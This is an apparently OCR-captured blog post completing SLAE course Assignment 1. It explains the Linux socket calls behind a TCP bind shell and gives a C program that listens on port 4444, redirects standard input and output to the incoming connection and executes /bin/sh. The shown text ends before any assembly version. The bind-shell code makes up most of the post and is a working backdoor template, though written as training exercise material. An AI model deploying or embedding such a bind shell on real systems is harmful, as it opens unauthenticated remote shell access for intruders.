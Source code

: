 # Assignment #1: Shell Bind TCP 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Create a Shell_Bind_TCP shellcode
    - Binds to a port
    - Execs Shell on incoming connection
- Port number should be easily configurable


### Solution

First, we need to understand how the sockets work on linux. For this purpose I create a new program using a lenguage where I am confortable, this socket receives a incoming connection and run a command using execve. 
The methods involved on it:

- socket:   Create an endpoint for communication and return a file descriptor 
- bind:     Bind a socket to a port   
- listen:   Listen for connections on a socket
- accept:   Accept a connection on a socket
- dup2:     Duplicate the file descriptor, used for set stdin, stdout and sterr to the new file descritor (returned from accept)   
- execve:   Execute a program (our purpose /bin/sh)



```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

int main(int argc, char *argv[]){

        // AF_INET = 2;         SOCK_STREAM = 1
        int fd = 0;
        int connfd = 0;
        fd = socket(AF_INET, SOCK_STREAM, 0);

        struct sockaddr_in serv_addr; 
        serv_addr.sin_family = AF_INET;
        serv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
        serv_addr.sin_port = htons(4444); 

        bind(fd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)); 
        listen(fd, 0);

        connfd = accept(fd, (struct sockaddr*)NULL, NULL);

        // redirect stdin, stdout, stderr
        dup2(connfd, 0);
        dup2(connfd, 1);
        dup2(connfd, 2); 

        // run program
        execve("/bin/sh", NULL, NULL);

```